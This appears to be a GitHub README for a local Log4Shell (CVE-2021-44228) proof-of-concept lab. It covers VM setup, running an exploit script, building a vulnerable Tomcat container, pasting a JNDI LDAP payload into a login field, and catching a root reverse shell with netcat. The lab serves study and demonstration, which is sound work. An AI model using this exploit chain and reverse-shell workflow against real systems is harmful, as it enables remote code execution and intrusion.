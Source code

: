 # Log4Shell PoC

rm_poc_log4shell

## PreReqs

- Windows system with minimum 8GB RAM
- Installed:
  - Visual Studio Code
  - git
  - virtualbox
  - vagrant
- download vulnerable [jdk-8u20](https://mega.nz/file/cFQF3SpC#U01e3y3L2f-_lYzL8s5a_x11C4n7IJYMbztS4x2mT-o)

## VM environment

1. clone repo: <https://github.com/ttgithg/rm_poc_log4shell>

    ```bash
    git clone git@github.com:ttgithg/rm_poc_log4shell
    ```

2. Put downloaded jdk-file in cloned github repo: `\rm_poc_log4shell\provisioning\files\log4jlab`

3. Open Visual Studio Code and open the cloned repo `rm_poc_log4shell` as a working folder

4. Open the root of `rm_poc_log4shell` in an Integrated Terminal

5. Check status: `vagrant status`

6. Create VM + provision: `vagrant up kalilab`

    **Note**: In case of errors correct them and try provisioning again with: `vagrant provision kalilab`

7. Connect with ssh: `vagrant ssh kalilab`

## Lab environment

Open the kalilab GUI and login with kauser.
We will need 3 terminals for this setup to manage a log4shell hack.
We open the browser on the localhost:8080 and past the given request: `${jndi:ldap://localhost:1389/a}`

### Summary

```bash
# Terminal1: netcat listener
nc -lvnp 9001

# Terminal2: Launch exploit
cd /log4jlab
sudo python3 poc.py --userip localhost --webport 8000 --lport 9001

# Terminal3: vulnerable application
cd /log4jlab
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc

# browser: paste request: ${jndi:ldap://localhost:1389/a}
http://localhost:8080/
```

### Extended walkthrough

### Terminal 1: netcat listener

```bash
┌──(kauser㉿kalilab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
```

### Terminal 2: Launch exploit

```bash
┌──(kauser㉿kalilab)-[/log4jlab]
└─$ cd /log4jlab/; ls
Dockerfile     jdk-8u20-linux-x64.tar.gz  requirements.txt
Exploit.class  LICENSE                    target
Exploit.java   poc.py                     vulnerable-application
jdk1.8.0_20    README.md

┌──(kauser㉿kalilab)-[/log4jlab]
└─$ sudo python3 poc.py --userip localhost --webport 8000 --lport 9001       

[!] CVE: CVE-2021-44228                                                      
[!] Github repo: https://github.com/kozmer/log4j-shell-poc                   
                                                                             
[+] Exploit java class created success
[+] Setting up LDAP server
                                                                             
[+] Send me: ${jndi:ldap://localhost:1389/a}
                                                                             
[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```

### Terminal 3: create vulnerable application

```bash
┌──(kauser㉿kalilab)-[/log4jlab]
└─$ cd /log4jlab/

┌──(kauser㉿kalilab)-[/log4jlab]
└─$ docker build -t log4j-shell-poc .
Sending build context to Docker daemon  574.8MB
Step 1/5 : FROM tomcat:8.0.36-jre8
8.0.36-jre8: Pulling from library/tomcat
8ad8b3f87b37: Pull complete 
751fe39c4d34: Pull complete 
b165e84cccc1: Pull complete 
acfcc7cbc59b: Pull complete 
04b7a9efc4af: Pull complete 
b16e55fe5285: Pull complete 
8c5cbb866b55: Pull complete 
96290882cd1b: Pull complete 
85852deeb719: Pull complete 
ff68ba87c7a1: Pull complete 
584acdc953da: Pull complete 
cbed1c54bbdf: Pull complete 
4f8389678fc5: Pull complete 
Digest: sha256:e6d667fbac9073af3f38c2d75e6195de6e7011bb9e4175f391e0e35382ef8d0d
Status: Downloaded newer image for tomcat:8.0.36-jre8
 ---> 945050cf462d
Step 2/5 : RUN rm -rf /usr/local/tomcat/webapps/*
 ---> Running in 118c9f3dab57
Removing intermediate container 118c9f3dab57
 ---> 0a7905e32954
Step 3/5 : ADD target/log4shell-1.0-SNAPSHOT.war /usr/local/tomcat/webapps/ROOT.war
 ---> c038eb1ce771
Step 4/5 : EXPOSE 8080
 ---> Running in e44c024ec983
Removing intermediate container e44c024ec983
 ---> 58cbb415ad3a
Step 5/5 : CMD ["catalina.sh", "run"]
 ---> Running in d10ead2ef23b
Removing intermediate container d10ead2ef23b
 ---> 989227232ea8
Successfully built 989227232ea8
Successfully tagged log4j-shell-poc:latest

┌──(kauser㉿kalilab)-[/log4jlab]
└─$ docker run --network host log4j-shell-poc                                
25-Apr-2022 00:10:33.847 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server version:        Apache Tomcat/8.0.36
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server built:          Jun 9 2016 13:55:50 UTC
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Server number:         8.0.36.0
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Name:               Linux
25-Apr-2022 00:10:33.848 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log OS Version:            5.10.0-kali3-amd64
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Architecture:          amd64
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Java Home:             /usr/lib/jvm/java-8-openjdk-amd64/jre
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Version:           1.8.0_102-8u102-b14.1-1~bpo8+1-b14
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log JVM Vendor:            Oracle Corporation
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_BASE:         /usr/local/tomcat
25-Apr-2022 00:10:33.849 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log CATALINA_HOME:         /usr/local/tomcat
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.config.file=/usr/local/tomcat/conf/logging.properties
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djdk.tls.ephemeralDHKeySize=2048
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.endorsed.dirs=/usr/local/tomcat/endorsed
25-Apr-2022 00:10:33.850 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.base=/usr/local/tomcat
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Dcatalina.home=/usr/local/tomcat
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.startup.VersionLoggerListener.log Command line argument: -Djava.io.tmpdir=/usr/local/tomcat/temp
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent Loaded APR based Apache Tomcat Native library 1.2.7 using APR version 1.5.1.
25-Apr-2022 00:10:33.851 INFO [main] org.apache.catalina.core.AprLifecycleListener.lifecycleEvent APR capabilities: IPv6 [true], sendfile [true], accept filters [false], random [true].
25-Apr-2022 00:10:33.855 INFO [main] org.apache.catalina.core.AprLifecycleListener.initializeSSL OpenSSL successfully initialized (OpenSSL 1.0.2h  3 May 2016)
25-Apr-2022 00:10:33.919 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["http-apr-8080"]
25-Apr-2022 00:10:33.929 INFO [main] org.apache.coyote.AbstractProtocol.init Initializing ProtocolHandler ["ajp-apr-8009"]
25-Apr-2022 00:10:33.930 INFO [main] org.apache.catalina.startup.Catalina.load Initialization processed in 380 ms
25-Apr-2022 00:10:33.947 INFO [main] org.apache.catalina.core.StandardService.startInternal Starting service Catalina
25-Apr-2022 00:10:33.947 INFO [main] org.apache.catalina.core.StandardEngine.startInternal Starting Servlet Engine: Apache Tomcat/8.0.36
25-Apr-2022 00:10:33.968 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deploying web application archive /usr/local/tomcat/webapps/ROOT.war
25-Apr-2022 00:10:34.099 WARNING [localhost-startStop-1] org.apache.tomcat.util.descriptor.web.WebXml.setVersion Unknown version string [4.0]. Default version will be used.
25-Apr-2022 00:10:34.368 INFO [localhost-startStop-1] org.apache.jasper.servlet.TldScanner.scanJars At least one JAR was scanned for TLDs yet contained no TLDs. Enable debug logging for this logger for a complete list of JARs that were scanned but no TLDs were found in them. Skipping unneeded JARs during scanning can improve startup time and JSP compilation time.
25-Apr-2022 00:10:34.389 INFO [localhost-startStop-1] org.apache.catalina.startup.HostConfig.deployWAR Deployment of web application archive /usr/local/tomcat/webapps/ROOT.war has finished in 420 ms
25-Apr-2022 00:10:34.390 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["http-apr-8080"]
25-Apr-2022 00:10:34.408 INFO [main] org.apache.coyote.AbstractProtocol.start Starting ProtocolHandler ["ajp-apr-8009"]
25-Apr-2022 00:10:34.409 INFO [main] org.apache.catalina.startup.Catalina.start Server startup in 478 ms
```

#### Browser

- Open URL: <http://localhost:8080/>
- paste `${jndi:ldap://localhost:1389/a}` in the `username` section
- press `login`

![poc log4shell](img/kalilabimg/1.poc-log4shell.png)

The hack succeeded when the netcat listener gives:

```bash
┌──(kauser㉿kalilab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48496
```

### Hack along

You can check your access and log4shell

```bash
┌──(kauser㉿kalilab)-[~]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48496
whoami
root
/usr/bin/script -qc /bin/bash /dev/null
root@kalilab:/usr/local/tomcat# ^Z
[1]+  Stopped                 nc -lvnp 9001
┌──(kauser㉿kalilab)-[~]
└─$ stty raw -echo; fg; reset
nc -lvnp 9001

root@kalilab:/usr/local/tomcat# 
```
